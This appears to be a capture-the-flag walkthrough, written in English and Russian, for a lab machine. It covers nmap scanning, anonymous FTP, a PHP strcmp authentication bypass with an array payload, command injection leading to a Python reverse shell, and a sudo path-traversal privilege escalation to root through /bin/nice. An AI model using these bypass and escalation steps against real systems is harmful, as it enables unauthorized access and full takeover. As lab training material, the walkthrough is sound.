



1)nmap -A -sS -sV -sC 192.168.100.27 -T4 -p-
2112/tcp open ftp ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r-- 1 ftp ftp 901 Aug 2 2020 index.php.bak
|\_-rw-r--r-- 1 ftp ftp 54 Aug 2 2020 welcome.msg

in index.php.bak username:admin,pass:potato, but it not work
we find уязвимую строчку в коде index.php.bak
if (strcmp($_POST['username'], "admin") == 0  && strcmp($\_POST['password'], $pass) == 0)

для того, чтобы воспользоваться уязвимостью прописываем в запросе в burpsuite

username=admin&password[]=""

окей мы нашли пароль и зашли на страницу /admin
меня сразу зацепило стение логов и я попробовала просунуть еще одну команду через ';' и использовала команду удаленого доступа через питон

мне открылся доступ к машине через www-data, я загрузила linpeas.sh, и обнаружилось что в файле /etc/passwd хранится пароль от пользователя webadmin

далее узнала какие команды мне можно выполнять от имени рута

сначала я попробовала дописать в папку /notes что то от своего пользователя, не получилось
далее поняла что можно указать путь через /notes в другую папку и создала в /tmp shell.sh
cat shell.sh
python3 -c "import os;os.system('/bin/bash');"
sudo /bin/nice /notes/../tmp/shell.sh

